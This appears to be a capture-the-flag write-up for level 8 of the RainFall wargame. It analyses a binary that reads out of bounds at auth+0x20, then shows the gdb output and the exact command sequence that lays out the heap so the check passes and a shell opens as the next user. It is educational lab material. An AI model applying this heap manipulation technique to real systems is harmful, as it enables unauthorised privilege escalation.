 <h1 align="center"> LEVEL 8 </h1>

## 🔍 Analysis of Decompiled [level8](./source.c)
The program keeps two global pointers:
- (gdb) info address :
  - `auth` :  auth is at `0x8049aac` → initially NULL.
  - `service` : info address service is at : `0x8049ab0` → initially NULL.
  - p `0x8049ab0` - `0x8049aac` = 4

It accepts four commands:

- **auth \<str\>**
  - Allocates 4 bytes for `auth` at `0x804a008`
  - Uses `strcpy` into that buffer.
- **reset**
  - Frees `auth`
- **service \<str\>**
  - `service = strdup(buffer)`
- **login**
  - If `*(int*)(auth + 0x20) != 0` → calls `system("/bin/sh")`
  - Else prints `"Password:"`

⚠️ Vulnerability: auth only points to 4 bytes, but the program reads from auth+0x20. That lands outside its allocation and overlaps with the nextheap chunk.
```
(gdb) p/x auth
$1 = 0x804a008
(gdb) p/x service
$2 = 0x804a018
(gdb) p/x auth+0x20
$3 = 0x804a028
(gdb) p 0x804a028 - 0x804a018
$3 = 16

```

## 💥 Exploit

The program reading 4 bytes from auth+0x20 without bounds checking. With heap layout manipulation, that address overlaps service, producing a non-zero at `auth + 0x20` and giving us a shell.
```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
service0123456789abcdef
0x804a008, 0x804a018 
login
$ whoami
level9
```



